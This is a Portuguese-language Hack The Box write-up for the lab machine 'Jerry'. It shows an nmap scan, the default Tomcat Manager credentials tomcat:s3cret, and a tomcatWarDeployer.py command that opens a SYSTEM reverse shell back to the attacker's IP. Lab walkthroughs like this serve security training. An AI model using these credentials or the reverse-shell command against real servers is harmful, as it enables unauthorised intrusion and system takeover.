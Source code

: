 ```yaml
---
title:     "Hack The Box - Jerry"
tags: [windows,easy]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/1.jpg)

## Enumeration

Hehehe, olha eu aqui novamentee

Iniciando com o nmap

```
root@kali:~/HTB-Windows/jerry# nmap -sV -p- -A -sC -T4 -oA nmap/init 10.10.10.95
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-02 17:22 EDT
Nmap scan report for 10.10.10.95
Host is up (0.20s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows Vista (86%)
OS CPE: cpe:/o:microsoft:windows_vista::sp1:home_premium
Aggressive OS guesses: Microsoft Windows Vista Home Premium SP1 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   214.34 ms 10.10.14.1
2   205.73 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1125.18 seconds
```

## Find Exploit

Temos um  `Apache Tomcat/7.0.88` vamos explorar isso

## Exploitation

Navegando ate o tomcat na pagina inicial temos algumas opcoes uma delas eh o `Manager App` quando clicamos ele pede senha para autenticar na application..

Se voce por qualquer cred, ele da erro e mostra o login  default `tomcat:s3cret`, voce tbm poderia fazer bruteforce na tentativa de encontrar uma cred valida.

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/2.jpg)

Usando o password default rapidamente fazemos login e assim vamos explorar esse acesso e obter uma reverse shell

um pouco mais abaixo encontramos informacoes sobre o server rodando em backgroud

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/3.jpg)

## Privilege Escalation

## Usando tomcatWarDeployer.py

Usando o tomcatWarDeployer.py(https://github.com/mgeeky/tomcatWarDeployer) conseguimos rapidamente obter uma reverse shell como SYSTEM

`python tomcatWarDeployer.py -U tomcat -P s3cret -H 10.10.14.37 -p 53 10.10.10.95:8080`

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/4.jpg)







